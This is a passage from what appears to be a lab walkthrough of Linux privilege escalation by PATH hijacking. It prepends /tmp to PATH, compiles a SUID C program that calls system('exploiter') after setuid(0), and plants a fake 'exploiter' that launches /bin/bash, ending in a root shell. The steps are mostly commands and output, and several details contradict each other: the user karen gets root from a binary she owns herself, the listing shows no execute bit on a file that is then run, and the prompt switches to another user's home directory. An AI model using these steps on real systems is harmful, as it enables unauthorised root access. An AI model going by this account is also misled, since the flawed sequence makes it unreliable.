 There is no writable folder. If we can modify it, then we need to add a writable folder to the `$PATH`, such as `/tmp` folder.

```bash
$ export PATH=/tmp:$PATH
$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ ls -ld /tmp
drwxrwxrwt 11 root root 4096 Jul 15 12:52 /tmp

```

1. Is there a script/application you can start that will be affected by this vulnerability?

We will create a script named `test.c` that will try to launch a system binary called `exploiter`.

```c
#include<unistd.h>
#include <stdlib.h>
void main()
{ setuid(0);
  setgid(0);
  system("exploiter");
}

```

Compile it into an executable and set the SUID bit.

```bash
$ gcc  test.c -o test -w
$ chmod u+s test
$ ls -l test
-rwSrw-r--  1 karen karen 16056 Jul 15 13:35 test

```

Once executed, `test` will look for an executable named `exploiter` inside folders listed under `PATH`. As the SUID bit is set, this binary will run with root privileges. 

Now, let's create the system binary that will be executed by the `test` binary in the `/tmp` folder.

```bash
$ echo "/bin/bash" > exploiter
$ chmod 777 exploiter
$ ls -l exploiter
-rwxrwxrwx 1 karen karen 10 Jul 15 13:45 exploiter

```

Run the binary

```bash
$ ./test
root@ip-10-10-224-225:/home/murdoch# whoami
root

```
